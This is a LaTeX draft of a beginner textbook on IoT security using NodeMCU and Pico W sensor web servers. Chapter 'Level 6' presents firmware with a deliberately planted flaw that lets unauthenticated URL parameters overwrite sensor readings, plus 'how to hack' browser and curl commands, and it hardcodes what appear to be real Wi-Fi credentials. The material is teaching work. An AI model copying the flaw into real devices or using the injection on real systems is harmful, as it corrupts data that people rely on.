\documentclass[11pt,a4paper]{book}

% ==========================================
% PACKAGES
% ==========================================
\usepackage[utf8]{inputenc}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{tcolorbox}
\usepackage{graphicx}
\usepackage[hidelinks, colorlinks=true, linkcolor=primary, urlcolor=secondary]{hyperref}
\usepackage{geometry}
\geometry{a4paper, margin=1in}
\usepackage{courier}
\usepackage{titlesec} 
\usepackage{parskip}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows, positioning}

% ==========================================
% COLOR DEFINITIONS & STYLES
% ==========================================
\definecolor{primary}{HTML}{2B5B84}    
\definecolor{secondary}{HTML}{D96459}  
\definecolor{accent}{HTML}{F2AE72}     
\definecolor{darkbg}{HTML}{212121}     
\definecolor{backcolour}{rgb}{0.96,0.96,0.96}

\titleformat{\chapter}[display]
  {\normalfont\bfseries\color{primary}}
  {\filleft\Huge\chaptertitlename~\thechapter}
  {1ex}
  {\titlerule\vspace{1ex}\filleft\Huge}
  [\vspace{1ex}\titlerule]

\titleformat{\section}
  {\normalfont\Large\bfseries\color{secondary}}
  {\thesection}{1em}{}

\titleformat{\subsection}
  {\normalfont\large\bfseries\color{accent}}
  {\thesubsection}{1em}{}

% Custom Boxes for "Real Book" Feel
\newtcolorbox{conceptbox}[1][Core Concept]{
    colback=accent!10!white, colframe=accent, fonttitle=\bfseries, title=#1, boxsep=2mm, arc=4mm
}
\newtcolorbox{troubleshootbox}[1][Troubleshooting Guide]{
    colback=secondary!10!white, colframe=secondary, fonttitle=\bfseries, title=#1, boxsep=2mm, arc=4mm
}
\newtcolorbox{takeawaybox}[1][Chapter Review]{
    colback=primary!10!white, colframe=primary, fonttitle=\bfseries, title=#1, boxsep=2mm, arc=4mm
}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{green!50!black}\itshape,
    keywordstyle=\color{blue}\bfseries,
    numberstyle=\tiny\color{gray},
    stringstyle=\color{purple},
    basicstyle=\ttfamily\small,
    breaklines=true,                 
    numbers=left,                    
    frame=shadowbox
}
\lstset{style=mystyle}

% TIKZ STYLING
\tikzstyle{device} = [rectangle, rounded corners, minimum width=3cm, minimum height=1cm,text centered, draw=black, fill=primary!30]
\tikzstyle{hacker} = [rectangle, rounded corners, minimum width=3cm, minimum height=1cm,text centered, draw=black, fill=secondary!30]
\tikzstyle{arrow} = [thick,->,>=stealth]

% ==========================================
% FRONT MATTER
% ==========================================
\title{
    \vspace{2cm}
    \Huge \textcolor{primary}{\textbf{Fundamentals of IoT and Security}}\\
    \vspace{0.2cm}
    \huge \textcolor{primary}{\textbf{for beginners}}\\
    \vspace{0.5cm}
    \Large \textcolor{secondary}{\textit{A Practical Guide with NodeMCU (ESP8266) and Raspberry Pi Pico WH}}
    \vspace{2cm}
}
\author{
\Large \textcolor{darkbg}{\textbf{
Dr.\ Arkaprabha Sau \\[0.3cm]
Dr.\ Ishita Bhakta \\[0.3cm]
Dr.\ Santanu Phadikar \\[0.3cm]
Dr.\ Koushik Majumder
}}
}

\date{
\vspace{1cm}
\textbf{Draft Version} \\[0.3cm]
\textit{Final Book Coming Soon} \\[0.5cm]
Expected Publication: XXXXX \\[0.5cm]
\textcolor{darkbg}{ISBN: 978-X-XXXXXX-XX-X}
}

\begin{document}
\maketitle

\chapter*{Preface}
\addcontentsline{toc}{chapter}{Preface}
Welcome to \textbf{Fundamentals of IoT and Security for beginners}. This massive textbook is designed heavily for educational purposes. To prevent truncations, this book incorporates the \textbf{UNABRIDGED} source code for every single demo level (1 through 10) provided in the accompanying course files. 

By the time you finish the final level, you will intricately understand how data traverses a Wi-Fi socket, how HTTP Basic Authentication is constructed on the wire, how algorithmic Python brute-forcing exploits deterministic protocols, and how cryptographic HMAC-SHA1 mathematics generate Time-Based One-Time Passwords (TOTP) natively on bare metal.

\tableofcontents

% ==========================================
% MODULAR CHAPTER INCLUSIONS
% ==========================================
% ==========================================
% CHAPTER 1: Theory
% ==========================================
\chapter{Introduction to the Internet of Things}

\textbf{In This Chapter:}
\begin{itemize}
    \item Understanding the scale of the IoT Revolution.
    \item The critical hardware constraints defining edge devices.
\end{itemize}

The Internet of Things (IoT) seamlessly blends the physical and digital worlds. A microchip costing less than a dollar can now read real-world data—temperature, pressure, heart rate, or industrial fluid flow—and transmit it globally across the internet. 

\section{The Architectural Flaw of IoT}
Why do we need a dedicated class for IoT security? Because IoT devices differ fundamentally from the desktop computers or smartphones we use daily. 

A modern PC has an incredibly complex operating system (like Windows 11), hardware-enforced memory isolation, and layers of dedicated antivirus software. Conversely, an IoT microcontroller possesses minimal kilobytes of memory and runs a single loop of compiled code bare-metal on the silicon. It communicates natively over TCP/IP sockets without a protective firewall wrapper. If your code tells the web server to accept a malicious query, the silicon obeys instantly. There is no software fail-safe beneath your code.

% ==========================================
% CHAPTER 2: Security
% ==========================================
\chapter{Introduction to Cyber Security in IoT}

\textbf{In This Chapter:}
\begin{itemize}
    \item Defining the CIA Triad (Confidentiality, Integrity, Availability).
    \item Modeling automated vs.\ manual threat actors.
\end{itemize}

\section{The CIA Triad}
Whenever you design an IoT system, you must systematically grade it against these three pillars:
\begin{itemize}
    \item \textbf{Confidentiality:} Ensuring data is only accessible to authorized viewers. (e.g., utilizing WPA2/WPA3 Wi-Fi encryption over open airspace).
    \item \textbf{Integrity:} Assuring that data is accurate and unchanged. This is arguably the most critical pillar for industrial IoT. If a sensor reads the temperature of a data center server rack, we must be absolutely certain that a hacker cannot inject a "fake" reading of 999 degrees Celsius. We will exploit a devastating lack of integrity heavily in Chapter 5.
    \item \textbf{Availability:} Guaranteeing that systems are available to users. Because IoT processors are slow, they are uniquely susceptible to Denial of Service (DoS) attacks.
\end{itemize}

% ==========================================
% CHAPTER 3: Hardware & Setup
% ==========================================
\chapter{Meet the Hardware Platforms \& IDE Setup}

\textbf{In This Chapter:}
\begin{itemize}
    \item Step-by-step environment setup for Arduino IDE (C++).
    \item Step-by-step firmware flashing and Thonny SDK for the Pico W.
    \item Official documentation web links.
\end{itemize}

To master both foundational embedded programming and modern rapid prototyping, this book features two parallel architectures.

\section{NodeMCU (ESP8266)}
The NodeMCU, utilizing the ESP8266 silicon, defined the maker-IoT revolution. It features a 32-bit RISC CPU running at 80 MHz with heavily integrated Wi-Fi capabilities. Because of its legendary status, it possesses arguably the largest open-source C++ library ecosystem in the world for an IoT device. Learn more at the official Espressif website: \url{https://www.espressif.com/en/products/socs/esp8266}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.9\textwidth]{NodeMCU-ESP8266-Pinout.jpg}
    \caption{NodeMCU ESP8266 Pinout Mapping}
\end{figure}

\subsection{Connecting \& Setup: Arduino IDE}
\textbf{Step 1:} Download the Arduino IDE from \url{https://arduino.cc}. \\
\textbf{Step 2:} Open the IDE and navigate to \textbf{File > Preferences}. \\
\textbf{Step 3:} In the \textit{Additional Boards Manager URLs} box, exactly paste: \\ \texttt{http://arduino.esp8266.com/stable/package\_esp8266com\_index.json} \\
\textbf{Step 4:} Go to \textbf{Tools > Board > Boards Manager}. Search for \texttt{esp8266} and Install the package. \\
\textbf{Step 5:} Connect the NodeMCU to your computer via USB (Ensure the cable supports Data Transfer). \\
\textbf{Step 6:} Go to \textbf{Tools > Port} and select the active COM port. Select \textbf{Tools > Board > NodeMCU 1.0}.

\begin{troubleshootbox}[Arduino IDE: Port Not Showing Up]
1. Swap the USB cable. Charging cables lack the D+ / D- internal data lines needed for communication. \\
2. Install the CH340 or CP2102 Serial Drivers if you are on an older Windows or Mac OS.
\end{troubleshootbox}

\section{Raspberry Pi Pico W}
The Pico W is a massive architectural leap. It is driven by the RP2040 chip—a custom dual-core Arm Cortex-M0+ running at 133 MHz, paired with an Infineon wireless module. Because of its processing power, it is capable of running an entire Python Interpreter natively on bare metal. Official Datasheet: \url{https://datasheets.raspberrypi.com/picow/pico-w-datasheet.pdf}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.9\textwidth]{Raspberry_Pi_Pico_W.png}
    \caption{Raspberry Pi Pico W Pinout Mapping}
\end{figure}

\subsection{Connecting \& Setup: Thonny IDE}
\textbf{Step 1:} Download the Thonny Python IDE from \url{https://thonny.org}. \\
\textbf{Step 2:} Hold down the tiny \texttt{BOOTSEL} button on the physical board while inserting the USB cable. Release after inserting. It will mount on your PC like a USB drive named \texttt{RPI-RP2}. \\
\textbf{Step 3:} Download the MicroPython UF2 firmware file from \url{https://micropython.org/download/rp2-pico-w/}. Drag and drop this `.uf2` file into the \texttt{RPI-RP2} drive. The drive will disappear as the board reboots. \\
\textbf{Step 4:} Open Thonny. In the bottom right corner, click the interpreter label and strictly select \textbf{MicroPython (Raspberry Pi Pico)}. \\
\textbf{Step 5:} Write code in the editor, press "Save", and select the Pico internal storage to save files permanently.

\begin{troubleshootbox}[Thonny: "OSError: Device is Busy"]
MicroPython runs a continuous REPL loop. If you deploy an infinite loop (`while True:`) without `time.sleep()` delays, the CPU hits 100\% utilization and locks the USB interface. \\
\textbf{The Fix:} Mash the red "STOP" sign in Thonny 5-6 times rapidly to force a `KeyboardInterrupt` over the serial hardware, breaking the loop safely.
\end{troubleshootbox}

% ==========================================
% CHAPTER 4: Level 1 and 2
% ==========================================
\chapter{Level 1 \& 2: The Foundational Baseline}

\textbf{In This Chapter:}
\begin{itemize}
    \item Level 1: Systematically deploying the DHT22 Environment Sensor in offline serial mode.
    \item Level 2/3: Constructing the primary Web Server framework to broadcast over Wi-Fi.
    \item Unabridged execution of the foundational code blocks.
\end{itemize}

Before we can implement cybersecurity, we must build a system worth securing. Our journey begins by constructing the physical edge device. We interface a \textbf{DHT22 Sensor} (Temperature and Humidity) to our microcontrollers using a single data pin. We will start completely offline, and then systematically bring the device online.

\section{Level 1: Offline Local Telemetry}
The very first step of any IoT project is ensuring the hardware physically functions before attaching network layers. We will command the microcontrollers to poll the DHT22 sensor every two seconds and print the data explicitly to the Serial Monitor via the physical USB cable. 

\subsection{NodeMCU Implementation (Level 1)}
The following is the 100\% complete, unabridged source code for the \texttt{NodeMCU Level 1} deployment snippet provided in the workspace repository.

\begin{lstlisting}[language=C++, caption=23022026\_Level\_1\_dht\_22\_Only\_Read\_Level\_1.ino]
#include <DHT.h>

#define DHTPIN D5
#define DHTTYPE DHT22

DHT dht(DHTPIN, DHTTYPE);

void setup() {
  Serial.begin(9600);
  dht.begin();
}

void loop() {
  Serial.print("Temp: ");
  Serial.print(dht.readTemperature());
  Serial.print(" C  Hum: ");
  Serial.print(dht.readHumidity());
  Serial.println(" %");
  delay(2000);
}
\end{lstlisting}

\subsection{Pico W Implementation (Level 1)}
The MicroPython equivalent relies on the native \texttt{dht} and \texttt{machine} libraries to execute the exact same offline logic. 

\begin{lstlisting}[language=Python, caption=01\_offline\_mode.py]
import machine
import time
import dht

# Pin where DHT22 DATA is connected
sensor = dht.DHT22(machine.Pin(15))

print("DHT22 Simple Serial Demo Started")

while True:
    try:
        sensor.measure()
        temp = sensor.temperature()
        hum = sensor.humidity()

        print("Temperature:", temp, "°C")
        print("Humidity:", hum, "%")
        print("---------------------")

    except:
        print("Sensor Error")

    time.sleep(2)
\end{lstlisting}

\section{Level 2 \& 3: Read-Only Wi-Fi Broadcasting}
Now that the bare-metal hardware functions, we must bring the devices onto the Wi-Fi network. In this tier, we are constructing a \textbf{Read-Only UI}. The device will host an HTML web page on Port 80, displaying the sensor metrics to any browser that navigating to it. 

Notice there are no input parameters mapped; the device merely functions as an arrogant broadcaster. 

\subsection{NodeMCU Implementation (Level 2)}
This is the unabridged C++ execution utilizing the foundational \texttt{ESP8266WebServer} library to abstract socket complexities cleanly. 

\begin{lstlisting}[language=C++, caption=23022026\_Level\_2\_DHT22\_WiFi\_LargeText\_With\_Description.ino]
/*
  NodeMCU (ESP8266) + DHT22 Web Server
  ------------------------------------
  - Connects to WiFi
  - Reads Temperature & Humidity from DHT22 (connected to D5)
  - Displays large values in browser (PC & Mobile on same WiFi)
*/

#include <ESP8266WiFi.h>        // Library to connect ESP8266 to WiFi
#include <ESP8266WebServer.h>   // Library to create web server
#include <DHT.h>                // Library for DHT sensor

#define D5PIN D5                // Define D5 pin for DHT22 data

// Replace with your WiFi details
const char* ssid = "YOUR_WIFI_NAME";
const char* pass = "YOUR_WIFI_PASSWORD";

DHT dht(D5PIN, DHT22);          // Create DHT object (pin, sensor type)
ESP8266WebServer server(80);    // Create web server on port 80

void setup() {
  Serial.begin(9600);           // Start serial communication
  dht.begin();                  // Start DHT sensor
  delay(2000);                  // Wait 2 seconds for sensor stability

  WiFi.begin(ssid, pass);       // Start WiFi connection
  while (WiFi.status() != WL_CONNECTED) {
    delay(500);                 // Wait until connected
  }

  Serial.println("Connected!");
  Serial.print("IP Address: ");
  Serial.println(WiFi.localIP());   // Print IP address (open in browser)

  // When someone opens the IP address
  server.on("/", []() {
    server.send(200, "text/html",
      "<html><body style='font-size:50px; text-align:center;'>"
      + String(dht.readTemperature()) + " C<br>"
      + String(dht.readHumidity()) + " %"
      + "</body></html>");
  });

  server.begin();               // Start the web server
}

void loop() {
  server.handleClient();        // Handle incoming browser requests
}
\end{lstlisting}

\subsection{NodeMCU Level 3: Auto-Refresh Upgrade}
Level 3 introduces an architectural CSS and HTML payload upgrade to the web server, allowing dynamic `<meta>` auto-refreshing so the user doesn't have to manually slam F5 to see temperature updates.

\begin{lstlisting}[language=C++, caption=23022026\_Level\_3\_AutoRefresh\_Wifi\_Mobile\_Color.ino]
/*
  NodeMCU (ESP8266) + DHT22 WiFi Monitor
  --------------------------------------
  What this program does:
  1. Connects NodeMCU to your WiFi network
  2. Reads Temperature and Humidity from DHT22 sensor (connected to D5)
  3. Creates a simple webpage
  4. Shows values in large Cyan (Temperature) and Pink (Humidity) text
  5. Automatically refreshes every 5 seconds
*/

#include <ESP8266WiFi.h>        // Library for WiFi connection
#include <ESP8266WebServer.h>   // Library to create web server
#include <DHT.h>                // Library to use DHT sensor

#define D5PIN D5               // Define D5 pin for DHT22 data

// Replace with your WiFi name and password
const char* ssid = "YOUR_WIFI";
const char* pass = "YOUR_PASSWORD";

DHT dht(D5PIN, DHT22);          // Create DHT object (Pin, Sensor type)
ESP8266WebServer server(80);    // Create web server on port 80

void setup() {
  Serial.begin(9600);           // Start serial communication (for IP display)
  dht.begin();                  // Start DHT sensor

  WiFi.begin(ssid, pass);       // Start connecting to WiFi
  while (WiFi.status() != WL_CONNECTED) {
    delay(500);                 // Wait until WiFi connects
  }

  Serial.println("Connected to WiFi");
  Serial.print("Open this IP in browser: ");
  Serial.println(WiFi.localIP());   // Print IP address

  // When someone opens the IP address
  server.on("/", []() {

    float t = dht.readTemperature();   // Read temperature
    float h = dht.readHumidity();      // Read humidity

    // Create simple HTML page
    String page = "<html>";
    page += "<head>";
    page += "<meta http-equiv='refresh' content='5'>";  // Auto refresh every 5 sec
    page += "</head>";
    page += "<body bgcolor='black' text='white'>";
    page += "<center>";

    page += "<h1>Temperature</h1>";
    page += "<h1><font color='cyan'>" + String(t) + " C</font></h1>";

    page += "<h1>Humidity</h1>";
    page += "<h1><font color='pink'>" + String(h) + " %</font></h1>";

    page += "</center>";
    page += "</body>";
    page += "</html>";

    server.send(200, "text/html", page);  // Send webpage to browser
  });

  server.begin();   // Start the web server
}

void loop() {
  server.handleClient();   // Continuously handle browser requests
}
\end{lstlisting}

\subsection{Pico W Implementation (Level 2 Web Server)}
MicroPython lacks automated handling loops natively, meaning we must construct raw Berkeley Sockets mathematically and send the explicit HTTP headers (`HTTP/1.0 200 OK`) or the Chrome browser will hard-reject the incoming packet as a malformed socket delivery!

\begin{lstlisting}[language=Python, caption=02\_Wifi\_read\_only.py]
import network, socket, time, machine, dht, secrets

sensor = dht.DHT22(machine.Pin(15))

wlan = network.WLAN(network.STA_IF)
wlan.active(True)
wlan.connect(secrets.SSID, secrets.PASSWORD)

while not wlan.isconnected():
    time.sleep(1)

print("IP:", wlan.ifconfig()[0])

s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0', 80))
s.listen(1)

while True:
    sensor.measure()
    t = "{:.1f}".format(sensor.temperature())
    h = "{:.1f}".format(sensor.humidity())

    conn, addr = s.accept()
    req = conn.recv(1024)

    html = f"""
    <html>
    <body style="margin:0;height:100vh;display:flex;justify-content:center;align-items:center;font-family:sans-serif;">
        <div style="text-align:center;">
            <h1 style="color:cyan;">Temperature: {t} C</h1>
            <h1 style="color:pink;">Humidity: {h} %</h1>
        </div>
    </body>
    </html>
    """

    conn.send("HTTP/1.0 200 OK\r\nContent-type: text/html\r\n\r\n")
    conn.send(html)
    conn.close()
\end{lstlisting}

In both platforms, these Level 2 algorithms signify a major achievement: telemetry is active over the air. But as we transition into Level 4, we will introduce administrative architecture, paving the road toward security concepts.

% ==========================================
% CHAPTER 03: Levels 4 and 5 (Intermediate NodeMCU)
% ==========================================
\chapter{Level 4 \& 5: Rudimentary Obfuscation (NodeMCU)}

\textbf{In This Chapter:}
\begin{itemize}
    \item Level 4: Initializing the native \texttt{server.authenticate} module.
    \item Level 5: Exploring basic bitwise XOR logic for telemetry obfuscation.
\end{itemize}

Prior to analyzing how hackers natively slice HTTP request queries, we will examine two intermediate iterations of the NodeMCU framework (Levels 4 and 5) that attempted to inject primary security via rudimentary code modifications. 

\section{Level 4: The First Password}
In Level 4, the developer decides to stop the public nature of the device by utilizing the built-in \texttt{authenticate} function of the C++ header.

\subsection{NodeMCU Implementation (Level 4)}
This is the unabridged iteration of Level 4. Notice the boolean structure around line 49.

\begin{lstlisting}[language=C++, caption=23022026\_Level\_4\_Password.ino]
/*
  NodeMCU (ESP8266) + DHT22 Secure WiFi Monitor
  ---------------------------------------------
  What this program does:
  1. Connects NodeMCU to your WiFi network
  2. Reads Temperature and Humidity from DHT22 sensor (connected to D5)
  3. Creates a password-protected webpage
  4. Shows values in Cyan (Temperature) and Pink (Humidity)
  5. Automatically refreshes every 5 seconds
  6. Only users with correct username and password can view data
*/

#include <ESP8266WiFi.h>        // Library for WiFi connection
#include <ESP8266WebServer.h>   // Library to create web server
#include <DHT.h>                // Library to use DHT sensor

#define D5PIN D5               // Define D5 pin for DHT22 data

// ----------- WiFi Credentials -----------
const char* ssid = "YOUR_WIFI";
const char* pass = "YOUR_WIFI_PASSWORD";

// ----------- Web Login Credentials -----------
const char* www_username = "admin";   // Change username if needed
const char* www_password = "1234";    // Change password if needed

DHT dht(D5PIN, DHT22);          // Create DHT object (Pin, Sensor type)
ESP8266WebServer server(80);    // Create web server on port 80

void setup() {
  Serial.begin(9600);           // Start serial communication (to show IP)
  dht.begin();                  // Start DHT sensor

  WiFi.begin(ssid, pass);       // Start connecting to WiFi
  while (WiFi.status() != WL_CONNECTED) {
    delay(500);                 // Wait until WiFi connects
  }

  Serial.println("Connected to WiFi");
  Serial.print("Open this IP in browser: ");
  Serial.println(WiFi.localIP());   // Print IP address

  // When someone opens the IP address
  server.on("/", []() {

    // ---- Authentication Check ----
    // If username/password incorrect, ask for login
    if (!server.authenticate(www_username, www_password)) {
      return server.requestAuthentication();
    }

    float t = dht.readTemperature();   // Read temperature
    float h = dht.readHumidity();      // Read humidity

    // ---- Create Simple HTML Page ----
    String page = "<html>";
    page += "<head>";
    page += "<meta http-equiv='refresh' content='5'>";  // Auto refresh every 5 sec
    page += "</head>";
    page += "<body bgcolor='black' text='white'>";
    page += "<center>";

    page += "<h1>Temperature</h1>";
    page += "<h1><font color='cyan'>" + String(t) + " C</font></h1>";

    page += "<h1>Humidity</h1>";
    page += "<h1><font color='pink'>" + String(h) + " %</font></h1>";

    page += "</center>";
    page += "</body>";
    page += "</html>";

    server.send(200, "text/html", page);  // Send webpage to browser
  });

  server.begin();   // Start the web server
}

void loop() {
  server.handleClient();   // Continuously handle browser requests
}
\end{lstlisting}

\section{Level 5: Encryption-Only Monitor}
Level 5 is an educational iteration demonstrating how physical microcontrollers process mathematics. The developer uses an XOR (Exclusive OR) logical bitwise operator (`^`) to mathematically mutate the temperature metric before it flies over the Wi-Fi. 

The HTML JavaScript then executes the same reverse XOR operation natively inside the Chrome engine using the shared integer `123`.

\subsection{NodeMCU Implementation (Level 5)}
\begin{lstlisting}[language=C++, caption=23022026\_Level\_5\_Encryption.ino]
/*
  NodeMCU (ESP8266) + DHT22
  Encryption-Only WiFi Monitor
  --------------------------------
  What this program does:
  1. Connects NodeMCU to WiFi
  2. Reads Temperature & Humidity from DHT22 (D5)
  3. Encrypts values using XOR with a secret key
  4. Sends encrypted values to browser
  5. Browser decrypts and displays real values
  6. Auto refresh every 5 seconds

  NOTE:
  This is educational encryption only (not HTTPS).
*/

#include <ESP8266WiFi.h>
#include <ESP8266WebServer.h>
#include <DHT.h>

#define D5PIN D5

// Replace with your WiFi credentials
const char* ssid = "YOUR_WIFI";
const char* pass = "YOUR_PASSWORD";

DHT dht(D5PIN, DHT22);
ESP8266WebServer server(80);

int secretKey = 123;   // Encryption key (change if needed)

void setup() {
  Serial.begin(9600);
  dht.begin();

  WiFi.begin(ssid, pass);
  while (WiFi.status() != WL_CONNECTED) {
    delay(500);
  }

  Serial.print("Open this IP in browser: ");
  Serial.println(WiFi.localIP());

  server.on("/", []() {

    float t = dht.readTemperature();   // Read temperature
    float h = dht.readHumidity();      // Read humidity

    // Encrypt values (multiply by 10 to preserve decimal)
    int encT = ((int)(t * 10)) ^ secretKey;
    int encH = ((int)(h * 10)) ^ secretKey;

    String page = "<html><head>";
    page += "<meta http-equiv='refresh' content='5'>";
    page += "</head><body bgcolor='black' text='white'><center>";

    page += "<h1>Encrypted Sensor Monitor</h1>";

    // JavaScript decrypts values in browser
    page += "<script>";
    page += "var key=" + String(secretKey) + ";";
    page += "var t=(" + String(encT) + "^key)/10;";
    page += "var h=(" + String(encH) + "^key)/10;";
    page += "document.write('<h1 style=\"color:cyan\">'+t+' C</h1>');";
    page += "document.write('<h1 style=\"color:pink\">'+h+' %</h1>');";
    page += "</script>";

    page += "</center></body></html>";

    server.send(200, "text/html", page);
  });

  server.begin();
}

void loop() {
  server.handleClient();
}
\end{lstlisting}

\begin{takeawaybox}
While Level 5 demonstrates symmetric logic, transmitting the mathematical decryption key natively inside the HTML payload (\texttt{var key=123}) completely nullifies the security. Modern systems rely on TLS certificates (HTTPS) explicitly computed via extreme mathematics to generate secure tunnels, not mere XOR obfuscation. Let's move to Level 6 to explore how injection bypasses authentication entirely.
\end{takeawaybox}

% ==========================================
% CHAPTER 04: Level 6 Injection
% ==========================================
\chapter{Level 6: The Unsecured Injection Attack}

\textbf{In This Chapter:}
\begin{itemize}
    \item Systematically demonstrating architectural injection vulnerabilities.
    \item Code execution of `Level\_6\_IoT\_Insecurity\_Demo` and `03\_unsecured\_web.py`.
    \item Reviewing the interactive Attacker script execution methodologies.
\end{itemize}

What defines an insecure system? It is a mechanism that inherently trusts user input blindly. We will build a system designed to read temperature. However, we will install a common developer "debug" flaw: the server will arbitrarily listen for URL Query Parameters (\texttt{?t=} and \texttt{?h=}). 

If an external agent manipulates the URL, the algorithm will instantly discard the real sensor telemetry and permanently replace it with the hacker's numbers. And it requires no password.

\section{Systematic NodeMCU Implementation (Level 6)}
Below lies the unabridged C++ execution mapped directly from the `23022026\_Level\_6\_IoT\_Insecurity\_Demo\_With\_Description.ino` file.

\begin{lstlisting}[language=C++, caption=23022026\_Level\_6\_IoT\_Insecurity\_Demo\_With\_Description.ino]
/*
  IoT Insecurity Demo
  -------------------
  Board: NodeMCU (ESP8266)
  Sensor: DHT22
  
  PURPOSE:
  1. Show real temperature and humidity by default.
  2. Allow anyone on same WiFi to override values using URL.
  3. Fake values remain until device is rebooted.
  
  HOW TO HACK:
  Browser:
    http://YOUR_IP/?t=100&h=5
  
  CMD (Windows):
    curl "http://YOUR_IP/?t=80&h=10"
*/

#include <ESP8266WiFi.h>
#include <ESP8266WebServer.h>
#include <DHT.h>

#define D5PIN D5
#define DHTTYPE DHT22

// ---------------- WIFI DETAILS ----------------
const char* ssid = "drarka.in";            // Your WiFi Name
const char* pass = "arkaprabha@1985";      // Your WiFi Password

// ---------------- OBJECTS ----------------
DHT dht(D5PIN, DHTTYPE);
ESP8266WebServer server(80);

// ---------------- OVERRIDE STORAGE ----------------
// If these stay NAN → real sensor data is shown
// If changed → fake values will be shown
float overrideTemp = NAN;
float overrideHum  = NAN;

void setup() {

  Serial.begin(9600);       // Start Serial Monitor
  dht.begin();              // Start DHT sensor

  WiFi.begin(ssid, pass);   // Connect to WiFi
  while (WiFi.status() != WL_CONNECTED) {
    delay(500);
  }

  Serial.println("Connected!");
  Serial.print("Open this IP in browser: ");
  Serial.println(WiFi.localIP());

  // ------------- WEB SERVER HANDLER -------------
  server.on("/", []() {

    // If URL contains ?t= or ?h= → store override permanently
    if (server.hasArg("t")) overrideTemp = server.arg("t").toFloat();
    if (server.hasArg("h")) overrideHum  = server.arg("h").toFloat();

    // Read real sensor values
    float t = dht.readTemperature();
    float h = dht.readHumidity();

    // If override exists → replace real data
    if (!isnan(overrideTemp)) t = overrideTemp;
    if (!isnan(overrideHum))  h = overrideHum;

    // -------- HTML PAGE --------
    String page = "<html>";
    page += "<head><meta http-equiv='refresh' content='5'></head>";
    page += "<body bgcolor='black' text='white'><center>";

    page += "<h1>Temperature</h1>";
    page += "<h1><font color='cyan'>" + String(t) + " C</font></h1>";

    page += "<h1>Humidity</h1>";
    page += "<h1><font color='pink'>" + String(h) + " %</font></h1>";

    page += "</center></body></html>";

    server.send(200, "text/html", page);
  });

  server.begin();  // Start server
}

void loop() {
  server.handleClient();  // Keep server running
}
\end{lstlisting}


\section{Systematic Pico W Implementation (Level 3 Unsecured)}

